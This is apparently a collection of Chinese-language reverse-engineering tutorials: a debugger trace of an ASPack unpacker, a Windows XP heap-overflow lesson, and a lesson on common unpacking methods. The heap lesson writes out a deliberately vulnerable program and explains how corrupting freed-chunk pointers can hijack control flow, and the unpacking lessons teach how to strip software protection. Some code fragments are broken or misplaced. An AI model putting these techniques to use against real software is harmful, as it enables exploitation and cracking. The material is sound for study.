01382029  mov dword ptr [ebp+488],ebx
0138202F  jnz 01382400
01382035  lea eax,[ebp+490]
0138203B  push eax
0138203C  call dword ptr [ebp+FA0]
003A2042  mov dword ptr [ebp+48C],eax
003A2048  mov esi,eax
```

第一句的 nop 是花指令，然后把过程的返回地址直接弹出，存到 ebp 中，然后下面几句计算当前段基址，把结果存到地址 ebp+0x488 处。如果已经计算过段基址，则说明压缩部分的代码已经被还原，直接跳过下面的过程。在 0x01382035 处取一个指针，这个指针指向字符串“KERNEL32.DLL”，把这个字符串指针压入栈中，接着从 ebp+0xFA0 处取一个地址，并调用这个地址处的过程，这个地址即是 GetModuleHandleA() 函数的地址。GetModuleHandleA() 函数用来获取一个应用程序或动态链接库的模块句柄，这里将要获取的是 KERNEL32.DLL 的模块句柄，调用以后保存 KERNEL32.DLL 的模块句柄。

```asm
0138204A  lea edi,[ebp+500]
0138204D  push edi
0138204E  push esi
0138204F  call dword ptr [ebp+FA5]
01382055  stos dword ptr es:[edi]
01382056  mov al,0
01382058  scas byte ptr es:[edi]
01382059  jnz short 01382058
0138205B  cmp byte ptr [edi],al
0138205D  jnz short 01382040
0138205F  lea eax,[ebp+7A0]
```

这里是一个循环结构，从 ebp+FA5 处取一个地址并调用，这个地址即是 GetProcAddress() 函数的入口点地址。GetProcAddress() 函数用来得到指定的动态链接库（DLL）中的输出函数地址。0x0138204A 处得到一个函数名称的指针并压入栈中，esi 是刚才调用 GetModuleHandleA() 函数获取到的动态链接库的基地址，接下来调用 GetProcAddress() 函数获取目标函数的地址，储存获取到的地址后，再取得下一个字符串（就是函数名称），如果当前字符串已经是最后一个则跳出循环。

这里先取得了三个函数的地址：VirtualAlloc()、VirtualFree()、VirtualProtect()。退出循环后就是这里：

```asm
0138205F  lea eax,dword ptr [ebp+7A0]
01382062  jmp eax
```

回头看看 0x01382014 处，把过程的返回地址 0x01382013 直接存入寄存器 ebp，这里取后 0x7A 字节的地址，即 0x0138208D，并转到这个地址处：

```asm
0138208D  mov ebx,dword ptr [ebp+595]
01382093  or ebx,ebx
01382095  je short 013820A1
```

这里测试地址 ebp+0x595 处有没有数据，如果没有数据则跳到 0x013820A1 处：

```asm
013820A1  lea esi,dword ptr [ebp+5C5]
013820A7  cmp dword ptr [esi],0
013820AA  je 013821BA
```

地址 ebp+0x5C5 处存放的是代码段的偏移量，如果为 0，就跳转到 0x013821BA 处。这里获取到的代码段偏移量为 0x1000，则跳转不执行，继续向下执行：

```asm
013820B0  push 4
013820B2  push 1000
013820B7  push 1800
013820BC  push 0
013820BE  call dword ptr [ebp+51F]
013820C1  mov dword ptr [ebp+148],eax
```

这几句指令通过调用 VirtualAlloc() 函数为即将要解密的数据申请堆内存空间，把申请到的堆内存地址储存在 ebp+0x148 处：

```asm
013820C7  mov eax,dword ptr [esi+4]
013820CA  add eax,10E
013820CF  je 0138218C
```

```asm
013820D5  push 4
013820D7  push 1000
013820DC  push eax
013820DD  push 0
013820DF  call dword ptr [ebp+51F]
013820E2  mov dword ptr [ebp+144],eax
```

esi+0x4 处储存的是代码段的大小，这里调用 VirtualAlloc() 函数申请堆内存空间，大小为代码段的大小加 0x10E，把申请到的堆内存地址储存在 ebp+144 处：

```asm
013820E8  push esi
013820E9  mov ebx,dword ptr [esi]
013820EB  add ebx,dword ptr [ebp+488]
```

把 esi 压入栈中（esi 中储存的是关于代码段的一些信息），然后获取代码段的偏移量，再加上当前段基址，结果即为代码段的基址：

```asm
013820F1  push dword ptr [ebp+148]
013820F7  push dword ptr [esi+4]
013820FA  push eax
013820FB  push ebx
013820FC  call 013826C8
```

这里调用过程 0x013826C8，被当作参数压入栈中的信息分别为第一次申请到的堆内存地址、第一次申请到的堆内存大小、第二次申请到的堆内存地址、计算出的代码段基址。过程 0x013826C8 即为解密函数，执行完这段代码就来到了：

```asm
01382198  push 8000
0138219D  push 0
0138219F  push dword ptr [ebp+148]
013821A5  call dword ptr [ebp+5E0]
```

这里调用 VirtualFree() 函数释放第一次申请的堆内存：

```asm
013821A8  mov ebx,dword ptr [ebp+595]
013821AE  or ebx,ebx
013821B0  je short 013821BA
013821B2  mov eax,dword ptr [ebx]
013821B4  xchg dword ptr [ebp+599],eax
```

```asm
013821BA  mov edx,dword ptr [ebp+488]
013821C0  mov eax,dword ptr [ebp+591]
013821C6  sub edx,eax
013821C8  je short 01382243
```

这里判断 ebp+595 处的数据是否存在，如果不存在则跳过下面两句代码。把当前段基址和原程序段基址相减，如果为零则跳走，不为零则需要重定位：

```asm
013821CA  mov eax,edx
013821CC  shr eax,10
013821CF  xor ebx,ebx
013821D1  mov esi,dword ptr [ebp+59D]
013821D7  add esi,dword ptr [ebp+488]
013821DD  cmp dword ptr [esi],0
013821E0  je short 01382243
```

这里为重定位做准备工作，获取重定位段的偏移，加上当前段基址转化成 RVA，然后判断重定位是否处理完毕。如果处理完毕则跳去 0x01382243 处理输入表：

```asm
01382238  or word ptr [esi],0FFF
0138223C  add esi,2
0138223F  loopd short 013821F5
01382241  jmp short 013821DD
01382243  mov edx,dword ptr [ebp+488]
01382249  mov esi,dword ptr [ebp+5A5]
0138224E  or esi,esi
01382251  je short 01382264
```

这里用来记录重定位表的结束位置，如果为 0 则跳到 0x01382264 处：

```asm
01382264  mov esi,221C
01382269  mov edx,dword ptr [ebp+488]
0138226F  add esi,edx
01382271  mov eax,dword ptr [esi+C]
01382274  test eax,eax
01382276  je 01382389
```

首先获取输入表的偏移量，加上当前段基址变成 RVA，然后判断输入表是否存在，不存在则跳走。

```asm
0138227C  add eax,edx
0138227E  mov ebx,eax
01382280  push eax
01382281  call dword ptr [ebp+FA9]
```

这里调用 GetModuleHandleA() 函数获取动态链接库的基址：

```asm
01382287  test eax,eax
01382289  jnz short 01382292
0138228B  push ebx
0138228C  call dword ptr [ebp+FAD]
```

如果获取到该动态链接库则跳到 0x01382292 处，否则调用 LoadLibraryA() 函数加载这个动态链接库：

```asm
013822E1  push ebx
013822E2  push dword ptr [ebp+5A9]
013822E8  call dword ptr [ebp+FA5]
013822EE  test eax,eax
013822F0  pop ebx
013822F1  jnz short 01382365
```

再跟踪几步就看到这里的代码，这里调用 GetProcAddress() 函数获取输入表中各函数的地址，如果获取成功则跳到 0x01382365 处：

```asm
01382365  mov dword ptr [edi],eax
01382367  add dword ptr [ebp+5AD],4
0138236E  jmp 013822A2
```

储存通过 GetProcAddress() 函数获取到的函数地址，指针向后移动四个字节，然后跳回循环头部处理下一个函数：

```asm
013823FF  pop ecx
01382400  mov eax,1372
01382405  push eax
01382406  add eax,dword ptr [ebp+488]
0138240C  pop ecx
0138240D  or ecx,ecx
0138240F  mov dword ptr [ebp+40E],eax
01382415  popad
01382416  jnz short 01382420
01382418  mov eax,1
0138241D  retn 0C
01382420  push 01371372
01382425  retn
```

这里把原程序入口点的偏移量传到 eax 中，通过压栈再出栈，再传入 ecx 中，判断是否为 0。如果不为零则给原程序入口点的偏移量加上当前段基址变成 RVA，然后恢复现场，跳到 0x01382420 处返回。看返回后的代码：

```asm
013C1372  call 013C17F8
013C1377  jmp 013C1083
```

看到这里的代码就可以庆祝一下了，这里就是程序原来的入口点了，就是常说的 OEP。壳的加载过程到这里也就结束了，运行完外壳部分的代码，然后把程序的控制执行权交给原程序代码。

# 菜鸟也要学溢出（四）堆溢出利用

在程序中，堆用于动态分配和释放程序所使用的内存空间。在以下情况下调用堆操作：

- 事先不知道程序所需内存空间的数量和大小。
- 需要使用的内存空间太大，不适合使用栈来分配。

堆是程序在运行期间分配给代码、处于栈以外的部分内存。当进程开始时，操作系统会创建一个默认的堆，这个堆被称为进程堆。如果进程没有创建其他的堆，那么使用进程堆分配堆内存。进程也可以在程序运行时创建一个单独的堆。除这些专用堆外，应用程序或许多加载的动态链接库之一也可以创建并使用单独的堆。

Win32 提供了一组丰富的 API 用于创建和使用专用堆。当应用程序或 DLL 创建专用堆时，这些堆驻留于进程空间中并且在进程范围内是可访问的。某一给定堆分配的任何数据应为同一堆所释放。在所有虚拟内存系统中，堆位于操作系统的虚拟内存管理器之上。语言运行时堆也驻留在虚拟内存中。某些情况下，这些堆在操作系统堆的上层，但语言运行时堆通过分配大的块来执行自己的内存管理。绕开操作系统堆来使用虚拟内存函数可使堆更好地分配和使用块。典型的堆实现由前端分配器和后端分配器组成。前端分配器维护固定大小块的自由列表。当堆收到分配调用后，它尝试从前端列表中查找自由块。如果此操作失败，则堆将被迫从后端分配一个大块来满足请求。通常的实现具有每个块分配的开销，这花费了执行周期，也减少了可用存储区。

Windows NT 对堆的实现使用 127 个从 8 到 1024 字节不等的 8 字节对齐块的自由列表和 1 个混合列表。混合列表，也称为自由列表，它包含大小超过 1024 字节的块。自由列表包含在双向链接表中链接在一起的内存单元。默认情况下，进程堆要执行合并操作。合并操作是组合相邻的自由块以生成更大的块的操作。合并操作花费了额外的周期，但减少了堆块的内部碎片。

接下来要讲到的堆内存溢出，仅靠第一章中所讲到的内容是远远不够的。这里再讲一些关于堆的内部数据结构和分配、释放、合并等算法。

这里要讲的堆的实现机制是基于 Windows XP 系统的。Windows 7 系统在堆的安全性和稳定性上都做了很大改进，这对做堆溢出实验不利，因此选择 Windows XP 系统，它只完成了功能和性能的部分，并没有考虑到安全性因素。

需要分配堆内存的时候调用内存分配函数，如 C 语言中的 malloc() 函数，C++ 中的 new() 函数。申请到的内存使用一个指针变量来接受使用。内存使用完毕后再使用内存回收函数回收这段内存空间，如 C 语言中的 free() 函数，C++ 中的 delete() 函数。

为了方便管理，按照不同的大小把堆内存分成一个个块，这个块叫做堆块。堆块分为两部分：块首和块身。块身即将要分配给用户使用的内存，而块首包含了堆块本身的一些信息，如堆块的大小、段索引、使用状态等。

在一个进程中可以有多个堆同时存在，在程序初始化时会自动创建一个堆，这个堆被称为进程堆。也可以在程序运行阶段由用户调用 HeapCreate() 来创建一个堆。在堆区的起始位置，有一个堆块表，用来储存当前堆里所有未使用堆块的信息。Free List 是一种很重要的堆块表，被称为空闲双向链表。在堆区的起始位置有一个空闲双向链表索引，里面包含了 128 个空闲双向链表，从 0 号排到 127 号，系统会把当前堆里所有未使用的堆块按照大小的不同链入这些空闲双向链表。

每个空闲双向链表里的堆块大小为空闲双向链表的行号 * 8 字节。空闲双向链表的 0 号表是个特例，它储存了所有大于 1024 字节的堆块，并把这些堆块从小到大排列，如图 1。还有一种很常见的堆块表，叫做 Lookaside，中文名为快速分配链表。使用快速分配链表来动态分配内存是申请和释放内存最快的方法。


其中的堆块也会被标记为占用态，因此不会发生对堆块的合并操作。快速分配链表也有 128 个，从 0 号排到 127 号，组织结构和空闲双向链表大致相同，需要注意的是快速分配链表最多只有 4 个结点。

在程序调用内存分配函数进行内存分配时，程序首先会检查在快速分配链表中相应大小的堆块是否为空，如果不为空则从链表中取下一个堆块，然后调整链表指针，并把堆块身的地址返回给用户使用。如果在快速分配链表中相应大小的堆块为空，则再次检查空闲双向链表中相应大小的堆块是否为空；如果不为空则从空闲双向链表中取下一个堆块，并调整链表指针，把堆块身的地址返回给用户使用。

如果在空闲双向链表中相应大小的堆块也为空，再检查加一号空闲双向链表是否为空，如果不为空则从该空闲双向链表中取下一个堆块，从该堆块中割下相应大小的一个堆块分配给用户使用，然后把剩下的部分重新组合为一个堆块，链入相应大小的空闲双向链表中。如果加一号空闲双向链表也为空，那么再向后检查下一号空闲双向链表，直到能分配出一个堆块为止。

当遇到从 0 号空闲双向链表中分配的情况，由于堆块在 0 号空闲双向链表中是按照大小从小到大排列的，程序会首先检查 0 号空闲双向链表中的最后一个堆块，如果能满足条件则再检查前一个堆块，最终找到最小能满足要求的堆块来分配给用户使用。堆块在使用完毕、需要回收释放的时候，检查相应大小的快速分配链表是否已经满足 4 个结点，如果不满足则把堆块链入相应的快速分配链表中；如果相应大小的快速分配链表已经满足 4 个结点，就把堆块链入对应大小的空闲双向链表中，并把堆块的状态修改为空闲。

堆内存空间在不断地进行申请和释放过程中会产生很多碎片，导致大堆块越来越少，因此堆块也需要进行碎片整理，把堆块碎片整理的过程叫作堆块合并。当两个相邻堆块都为空闲态时则会发生堆块合并，这时分别从两个对应的空闲双向链表中取下两个堆块，合并在一起，并重新调整堆块首信息，链入相应的空闲双向链表中。了解了堆内存的实现机制以后，来做一个简单的堆溢出实验。看 C 语言代码：

```c
#include <stdio.h>
#include <windows.h>

int main()
{
    
}
```

# 主题乐园

```c
__asm int 3
HANDLE hBase;
LPVOID hp1, hp2, hp3;
hBase = HeapCreate(0, 0x1000, 0x1000);
hp1 = HeapAlloc(hBase, HEAP_ZERO_MEMORY, 8);
hp2 = HeapAlloc(hBase, HEAP_ZERO_MEMORY, 8);
hp3 = HeapAlloc(hBase, HEAP_ZERO_MEMORY, 8);
HeapFree(hBase, HEAP_ZERO_MEMORY, hp2);
scanf("%s", hp1);
hp2 = HeapAlloc(hBase, HEAP_ZERO_MEMORY, 8);
return 0;
```

```asm
.text:0040100A    push    1000h    ; dwMaximumSize
.text:0040100F    push    1000h    ; dwInitialSize
.text:00401014    push    0        ; flOptions
.text:00401016    call    ds:HeapCreate
.text:0040101C    mov     [ebp+hHeap], eax
```

这里调用函数 HeapCreate() 创建一个大小为 0x1000 的堆，把创建的堆的基址放到 hHeap 变量里。用 OD 按 F8 跟踪到这一步，创建的堆的基址为 0x00900000，看这里的数据，如图2。再向下一点就是堆的空闲双向链表：

```text
00900170  00 00 00 00 00 00 00 00 88 06 90 00 88 06 90 00
00900180  80 01 90 00 80 01 90 00 88 01 90 00 88 01 90 00
00900190  90 01 90 00 90 01 90 00 98 01 90 00 98 01 90 00
009001A0  A0 01 90 00 A0 01 90 00 A8 01 90 00 A8 01 90 00
009001B0  B0 01 90 00 B0 01 90 00 B8 01 90 00 B8 01 90 00
009001C0  C0 01 90 00 C0 01 90 00 C8 01 90 00 C8 01 90 00
```

这里嵌入一句汇编指令 int 3，int 3 指令会导致程序异常中断。直接使用 OD 调试程序的话会调用堆机制，这和程序直接运行时的堆内存实现机制是不同的，因此这里手动添加一个断点，等到程序异常中断后把进程附加到 OD 上。定义一个句柄 hBase 和三个空指针 hp1、hp2、hp3，然后调用 HeapCreate() 函数创建一个大小为 0x1000 字节的堆，然后三次调用 HeapAlloc() 函数申请内存，每次申请 8 字节，释放第二次调用 HeapAlloc() 函数申请到的内存，然后调用 scanf() 函数从控制台中获取用户输入的一个字符串放到第一次调用 HeapAlloc() 函数申请到的内存中，再次调用 HeapAlloc() 函数申请 8 字节的内存，释放所有申请到的内存后退出主函数 main()。

使用 VC6.0 编译这段代码，编译完成后一边使用 IDA 分析，一边使用 OD 调试：

```asm
.text:00401000    push    ebp
.text:00401001    mov     ebp, esp
.text:00401003    sub     esp, 10h
.text:00401006    push    ebx
.text:00401007    push    esi
.text:00401008    push    edi
.text:00401009    int     3
Trap to Debugger
```

运行程序，然后系统产生错误，选“调试”就可以停在这里。这里第三句指令为句柄 hBase 和指针 hp1、hp2、hp3 开辟空间，最后一句 int3 指令产生异常中断：


图2

堆的空闲双向链表从 0x00900178 开始，第 8 个字节指向一个空闲双向链表，前 4 个字节为空闲双向链表的前向指针，后 4 个字节为空闲双向链表的后向指针。0x00900178 处是 0 号空闲双向链表，0x00900180 处是 1 号空闲双向链表……由于这个堆才刚刚被创建，还没有被使用过，因此当前只有一个很大块的堆块。在这里可以看到，除了 0 号空闲双向链表中只有一个项（地址为 0x00900688）以外，别的空闲双向链表都指向它本身，即是空的：

```asm
.text:0040101F    push    8    ; dwBytes
.text:00401021    push    8          ; dwFlags
.text:00401023    mov     eax, [ebp+hHeap]
.text:00401026    push    eax        ; hHeap
.text:00401027    call    ds:HeapAlloc
.text:0040102D    mov     [ebp+var_4], eax
```

调用 HeapAlloc() 函数从 hHeap 堆中申请 8 字节的内存空间，把申请到的地址储存在变量 var_4 里。这里申请到的堆块地址为 0x00900688。

```asm
.text:00401030    push    8          ; dwBytes
.text:00401032    push    8          ; dwFlags
.text:00401034    mov     ecx, [ebp+hHeap]
.text:00401037    push    ecx        ; hHeap
.text:00401038    call    ds:HeapAlloc
.text:0040103E    mov     [ebp+lpMem], eax
```

再次调用 HeapAlloc() 函数从 hHeap 堆中申请 8 字节的内存空间，把申请到的地址储存在变量 lpMem 里。这里申请到的堆块地址为 0x00900698。这是因为在堆块的块身前还有 8 个字节的块首，用来记录堆块的状态信息，因此虽然申请了 8 字节的内存空间，但堆块所占用的内存空间却是 0x10 字节。

```asm
.text:00401041    push    8          ; dwBytes
.text:00401043    push    8          ; dwFlags
.text:00401045    mov     edx, [ebp+hHeap]
.text:00401048    push    edx        ; hHeap
.text:00401049    call    ds:HeapAlloc
.text:0040104F    mov     [ebp+var_C], eax
```

这里和刚才一样，调用 HeapAlloc() 函数从 hHeap 堆中申请 8 字节的内存空间，把申请到的地址储存在变量 var_C 里。经过刚才的说明，不用想，猜也可以猜到这里分配到的地址是 0x009006A8。而事实证明确实如此。

```asm
.text:00401052    mov     eax, [ebp+lpMem]
.text:00401055    push    eax        ; lpMem
.text:00401056    push    8          ; dwFlags
.text:00401058    mov     ecx, [ebp+hHeap]
.text:0040105B    push    ecx        ; hHeap
.text:0040105C    call    ds:HeapFree
```

这里调用 HeapFree() 函数回收 hHeap 堆中地址为 lpMem 的内存。F8 跟踪过这段指令以后，再看看堆的空闲双向链表：

| 地址 | 数据 |
|---|---|
| 00900170 | 00 00 00 00 00 00 00 00 B8 06 90 00 B8 06 90 00 ... |
| 00900180 | 80 01 90 00 80 01 90 00 98 06 90 00 98 06 90 00 ... |
| 00900190 | 90 01 90 00 90 01 90 00 98 01 90 00 98 01 90 00 ... |
| 009001A0 | A0 01 90 00 A0 01 90 00 A8 01 90 00 A8 01 90 00 ... |
| 009001B0 | B0 01 90 00 B0 01 90 00 B8 01 90 00 B8 01 90 00 ... |
| 009001C0 | C0 01 90 00 C0 01 90 00 C8 01 90 00 C8 01 90 00 ... |

和刚才操作堆内存之前的空闲双向链表相比，0 号空闲双向链表发生了改变，它指向的地址从 0x00900688 变成了 0x009006B8，也就是说它缩小了 0x30 字节，而这 0x30 字节就是三次调用 HeapAlloc() 函数所分配出去的内存单元。相比之下，2 号空闲双向链表也发生了改变：原来的 2 号空闲双向链表指向它本身，是空的；而现在的 2 号空闲双向链表指向地址 0x00900698。0x00900698 是第二次调用 HeapAlloc() 函数从 hHeap 堆中申请到的内存空间，而后来又被 HeapFree() 函数释放。由于位于它之前与之后的堆块都没有释放，所以无法完成堆块合并操作，因此被链入了 2 号空闲双向链表。看这时关于堆块的内存数据：

| 地址 | 数据 |
|---|---|
| 00900680 | 02 00 08 00 E3 01 08 00 00 00 00 00 00 00 00 00 ... |
| 00900690 | 02 00 02 00 E5 00 08 00 00 01 90 ... |
| 009006A0 | 02 00 02 00 E7 01 08 00 00 00 00 00 ... |

```asm
dwFlags

.text:00401077  mov  eax, [ebp+hHeap]
.text:0040107A  push eax
.text:0040107B  call ds:HeapAlloc
.text:00401081  mov  [ebp+lpMem], eax
```

可以清楚地看到被回收的内存已经被链入了 2 号空闲双向链表中，这个堆块的地址为 0x00900690，它的后 8 个字节已经被修改为空闲双向链表表头的地址：

```asm
.text:00401062  mov  edx, [ebp+var_4]
.text:00401065  push edx
.text:00401066  push offset format ; "%s"
.text:0040106B  call _scanf
.text:00401070  add  esp, 8
```

这里调用 scanf() 来获取控制台输入，从控制台里取一个字符串放到 var_4 指向的空间中。var_4 是第一次调用 HeapAlloc() 函数从 hHeap 堆中申请到的内存单元，它的值为 0x00900688。使用 OD 跟踪到这里以后，在控制台输入一个字符串“01234567890ABCDEFGHIJKLMN”，然后注意 var_4 所指向内存地址的数据：

```text
00900680 ...
00900690 38 39 41 42 43 44 45 46 47 48 49 4A 4B 4C 4D 4E ...
009006A0 ...
```

0x00900688 是第一次调用 HeapAlloc() 函数从 hHeap 堆中申请到的内存单元，它的前 8 字节 0x00900680 是这个堆块的块首；0x00900698 是第二次调用 HeapAlloc() 函数从 hHeap 堆中申请到的内存单元，它的前 8 字节 0x00900690 也是这个堆块的块首。第一次调用 HeapAlloc() 函数从 hHeap 堆中申请到的内存单元大小只有 8 个字节，但是程序从控制台获取到的字符串长度却为 24，这样就造成了数据溢出，覆盖了位于该内存单元后的 16 个字节。这 16 个字节就是已经被释放的第二次调用 HeapAlloc() 函数从 hHeap 堆中申请到的堆块。

```asm
.text:00401073  push 8
.text:00401075  push 8
```

再次调用 HeapAlloc() 函数从 hHeap 堆中申请到大小 8 字节的内存单元，这时首先会检查 2 号空闲双向链表，因为 2 号空闲双向链表中已经链入了刚刚被回收的堆块（地址为 0x00900690），明显不为空，所以现在要从 2 号空闲双向链表取下这个堆块。由于这个堆块已经被溢出覆盖，因此在做链表指针调整的时候会发生错误。

因为位于 0x00900690 的堆块已经被取下，则程序在做链表指针调整时会读取这个堆块的后向指针，并把这个堆块的前向指针所指向项的后向指针修改为这个堆块的后向指针；同时读取这个堆块的前向指针，并把这个堆块的后向指针所指向项的前向指针修改为这个堆块的前向指针。用代码可以把这个过程表示为：

```c
node->flink->blink = node->blink;
node->blink->flink = node->flink;
```

其中 node 为结点项，flink 为前向指针，blink 为后向指针。

但是由于溢出数据已经将这个堆块的前向指针和后向指针破坏，被破坏后的前向指针和后向指针分别为 0x4A494847 和 0x4E4D4C4B，而这两个地址是不存在的，因此必将导致程序出错，如图3。

```asm
.text:00401084 xor eax, eax
.text:00401086 pop edi
.text:00401087 pop esi
.text:00401088 pop ebx
.text:00401089 mov esp, ebp
.text:0040108B pop ebp
.text:0040108C retn
```


图3

如果这里用来修改一个程序即将执行的函数指针，那么控制程序流程将会变得轻而易举。

# 破解终结者（十）——常见脱壳方法

通过上一节课，读者应该已经对壳有了一定的认识，这节课就来简述几种常见的脱壳方法。

## 一、单步跟踪法

首先看图1，目标程序有一层 ASPack 的壳，使用 OD 加载程序，入口点如下：

```asm
00212000  90              nop
00212001  60              pushad
00212002  E8 03000000     call 0021200A
```


图1

上一节讲过，这里第三句的 call 指令其实是一个变形的跳转，如果按 F8 步过就跑飞了，按 F7 跟进这个 call，然后看到这样的代码：

```asm
0021200A  5D              pop ebp
0021200B  45              inc ebp
0021200C  55              push ebp
0021200D  C3              retn
```

按 F8 跟过这几句，遇到 retn 指令以后程序返回到了这里：

```asm
00212008  EB 04           jmp short 0021200E
0021200A  5D              pop ebp
```

```asm
0021200B  45              inc ebp
0021200C  55              push ebp
0021200D  C3              retn
0021200E  E8 01000000     call 00212014
```

返回后是一句 jmp 指令，跳转到 0021200E 处的 call 指令。继续按 F7 跟进这个 call，接下来就是外壳部分的代码，直接跟踪下去就和上节课的内容一样了。在这里看到有些循环我们可以直接跳出，凡是遇到向上的跳转都选择下一句然后按 F4，这样很快就可以看到这里的代码：

```asm
00212415  61              popad
00212416  75 08           jnz short 00212420
00212418  B8 01000000     mov eax,1
0021241D  C2 0C00         retn 000C
00212420  68 72132000     push 00201372
00212425  C3              retn
```

按 F8 跟过去，遇到 retn 指令返回后的代码为：

```asm
00201372  E8 81040000     call 002017F8
00201377  E9 37FDFFFF     jmp 002010B3
0020137C  8BFF            mov edi,edi
```

这里就是程序的 OEP 了，选择 OD 的 DUMP 插件把代码从内存中剥离出来就可以了，如图2、图3。

## 二、堆栈平衡法

前面讲过，栈是程序里的一种非常重要的数据结构，它是一段内存空间，用来记录程序运行时的一些变量。本节使用堆栈平衡原理来寻找程序的 OEP，通常堆栈平衡被称为“ESP 定律法”，是脱压缩壳的神器，熟练的话两秒钟就可以搞定它。

使用 OD 加载被加壳程序，入口点代码如下：


壳代码执行完成以后，肯定会有一句 popad 指令来恢复程序原来的现场。程序必须要保证调用 popad 指令来恢复现场时候的堆栈指针，正好指向调用 pushad 指令压入堆栈时的指针。这样的话，在执行完 pushad 指令后，对当前堆栈指针设置一个硬件访问断点；当程序遇到 popad 指令时，读取储存在堆栈里的数据就会触发硬件访问断点，导致程序中断。


用 OD 加载加过壳的程序，然后按 F8 步过 pushad 指令，然后看寄存器窗口，ESP 寄存器的值变成了 0025FE38，如图4。这里对 ESP 设置一个硬件访问断点，在 OD 的命令行里执行命令“hr esp”，如图5，然后按 F9 让程序运行起来。当程序读取刚才 pushad 指令压入的数据时，就会触发断点。中断后的代码如下：


这里调用了 popad 来恢复现场，接着是一个 jnz 跳转指令，然后 retn 返回，这里返回就到了程序的 OEP；到这里 DUMP 即可。


注意这里有一句 pushad 指令。pushad 指令用来向堆栈中按顺序依次压入 8 个通用寄存器的值，顺序为 EDI、ESI、EBP、ESP、EBX、EDX、ECX、EAX。pushad 指令还有一个与它相对应的指令 popad，popad 指令正好与 pushad 相反，它从堆栈中取出一系列数据，按顺序依次放入 8 个通用寄存器中，顺序为 EAX、ECX、EDX、EBX、ESP、EBP、ESI、EDI。在这里调用 pushad 指令用来保存当前的环境变量，也就是记录壳代码执行前当前的现场状态。

## 三、内存镜像法

被加壳的程序在运行时，外壳部分对加密数据进行解密，然后将解密数据放到代码段。用 LoadPE 比较一下程序加壳前和加壳后的区段信息，图6、图7。

可以看出加过壳的程序比没加壳前多出了两个区段，分别是 .aspack 和 .adata；而与程序加壳前的几个区段相比较，加壳后的区块大小都变小了，这就是壳程序的压缩效果，而那个 .aspack 区段就是外壳代码的区段。

用OD加载加壳后的程序，点击工具栏中的“M”，或者按快捷键ALT+M，可以打开内存映射窗口，图8。


图6


图7


图8

一般的壳都是依次解密各区段的数据，等所有区段解密完成后再跳转到代码段去执行原程序的代码。这里选中程序所有的区段，分别按F2给它们设置一个断点，图9。这里设置的断点是一次性断点，如果程序要执行、读取、访问被设置断点的区段，则会触发断点导致中断，接着这个断点就会自动被删除。按F9让程序运行，可以看到程序中断后断点就会被自动删除，图10。然后继续按F9让程序运行，直到所有区段都被解密完成，这时再给.text代码段设置一个断点，按F9跑起来，再次被中断后就是程序要执行.text段的代码了，从这里一步到达OEP。


图9


图10

## 四、DLL文件

动态链接库英文为DLL，是Dynamic Link Library的缩写形式。DLL是一个包含可由多个程序同时使用的代码和数据的库，DLL不是可执行文件。动态链接提供了一种方法，使进程可以调用不属于其可执行代码的函数。函数的可执行代码位于一个DLL中，该DLL包含一个或多个已被编译、链接并与使用它们的进程分开存储的函数。DLL还有助于共享数据和资源，多个应用程序可同时访问内存中单个DLL副本的内容。

Windows中还有一些作为DLL实现的文件，如.ocx的ActiveX控件、.cpl的控制面板文件。用前面几节所描述的方法也可以找到被加壳的DLL文件的OEP，但是针对于DLL文件的一个特性，可以有一种针对于DLL文件的独特的寻找OEP的方法。

和exe文件有个main或者WinMain的入口函数一样，DLL也有一个入口函数，叫作DllMain。看看MSDN里给出的定义：

```c
BOOL WINAPI DllMain(
    __in HINSTANCE hinstDLL,
    __in DWORD fdwReason,
    __in LPVOID lpvReserved
);
```

第一个参数hinstDLL是DLL文件映射到内存时的模块句柄，它的值是DLL文件映射到内存时的基地址。

第二个参数fdwReason说明了DllMain函数的调用者，它有四个可选值：

- **DLL_PROCESS_ATTACH**：当一个DLL文件被映射到进程的地址空间时，系统调用该DLL的DllMain函数，传递的fdwReason参数为DLL_PROCESS_ATTACH。这种调用只会发生在第一次映射时。
- **DLL_PROCESS_DETACH**：当DLL被从进程的地址空间解除映射时，系统调用它的DllMain，传递的fdwReason值是DLL_PROCESS_DETACH，应执行进程相关的清理工作。
- **DLL_THREAD_ATTACH**：当进程创建一线程时，系统查看当前映射到进程地址空间中的所有DLL文件映像，并用值DLL_THREAD_ATTACH调用DLL的DllMain函数。
- **DLL_THREAD_DETACH**：如果线程调用了ExitThread来结束线程（线程函数返回时，系统也会自动调用ExitThread），系统查看当前映射到进程空间中的所有DLL文件映像，并用DLL_THREAD_DETACH来调用DllMain函数，通知所有DLL去执行线程级的清理工作。

第三个参数lpvReserved，当使用DLL_PROCESS_ATTACH调用DllMain时，如果该参数的值是NULL则表示动态链接，如果该参数的值是非零则表示静态加载；当使用DLL_PROCESS_DETACH调用DllMain时，如果DLL加载失败或者已经调用过FreeLibrary函数则该参数为NULL，否则为非零。

```asm
6BC7600C  push ebp
6BC7600D  retn
```

从这里可以看出，从加载一个DLL文件到卸载，DllMain函数至少要被执行两次。在使用DLL_PROCESS_ATTACH调用DllMain函数时，外壳代码会调用解密代码将加密的数据和代码进行解密；而使用DLL_PROCESS_DETACH调用DllMain函数时，因为程序的代码已经被解密，所以外壳代码会跳过解密部分，这样要找到OEP就比原来方便了很多。

一直按F8直到返回，返回后是一句跳转指令：

```asm
6BC76008  jmp short 6BC7600E
```

跳转到一句call指令：

```asm
6BC7600E  call 6BC76014
```

按F7跟进这个call，然后就到了这里：

```asm
6BC76014  pop ebp
6BC76015  mov ebx,-13
6BC7601A  add ebx,ebp
6BC7601C  sub ebx,6000
6BC76022  cmp dword ptr [ebp+488],0
6BC76029  mov dword ptr [ebp+488],ebx
6BC7602F  jnz 6BC76400
```

用OD加载加壳后的DLL，看到提示（图11），这里选“是”，接着看到外壳的入口点是一句pushad指令，这里按F2下断点，然后按F9运行（图12）。此时外壳部分已经将加密数据解密并执行解密代码，关闭这个窗口，程序就会使用DLL_PROCESS_DETACH调用DllMain，程序就会被中断在外壳代码的入口点：

```asm
6BC76001  pushad
6BC76002  call 6BC7600A
```


图11

这里一直按F8走过去，到最后一句的时候跳转到了这里：

```asm
6BC76400  mov eax,13A2
6BC76405  push eax
6BC76406  add eax,dword ptr [ebp+488]
6BC7640C  pop ecx
6BC7640D  or ecx,ecx
6BC7640F  mov dword ptr [ebp+40],eax
6BC76415  popad
6BC76416  jnz short 6BC76420
6BC76418  mov eax,1
6BC7641D  retn 0C
6BC76420  push 6BC73A2
6BC76425  retn
```


图12

按F8步过第一句的pushad指令，然后按F7跟进这个call，然后就到了这里：

```asm
6BC7600A  pop ebp
6BC7600B  inc ebp
```

